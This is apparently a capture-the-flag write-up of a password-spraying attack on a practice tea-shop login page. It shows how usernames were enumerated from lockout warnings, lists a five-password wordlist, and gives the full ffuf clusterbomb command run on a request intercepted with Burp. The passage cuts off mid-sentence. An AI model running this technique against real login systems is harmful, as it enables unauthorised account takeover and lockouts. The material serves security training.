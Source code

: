 We are given a website with an account warning of lock out after 5 failed in-corrects attempts

![](https://i.imgur.com/uPqXeEK.png)

Definitely when it comes to situation like this what should come to mind is **password spraying**, we can enumerate usernames through the page description and our own instinct


![](https://i.imgur.com/Wo6lxO1.png)


I managed to find **admin, jeremy and jessamy** because this are the only login attempts that throws a lockout attempt warning


we can then try out a **password spraying** attack using `ffuf`

- Open up `burpsuite` and intercept the request
- copy or save the request to a `TXT` file
- Then replace username field with `FUZZUSER` and password with `FUZZPASS`

![](https://i.imgur.com/t05GYFj.jpg)

- We can create a wordlist of usernames we found and then 5 common passwords we know, since we get a lockout after 5 attempts

```
# common password wordlist

Password
admin
letmein
Password123
qwerty

# Username found wordlist

admin
jeremy
jessamy
```

- Now we can fire up `ffuf` and start our password spraying attack

```bash
# -request : request file to check
# -request-proto : protocol to use along with raw request (default: https)
# -mode : Multi-wordlist operation mode, run --help for more
# -w : specify wordlist

$ ffuf -request teashop.txt -request-proto http -mode clusterbomb -w pass.txt:FUZZPASS -w users.txt:FUZZUSER
```

Note You can intercept request with **burpsuite** and then try to check for 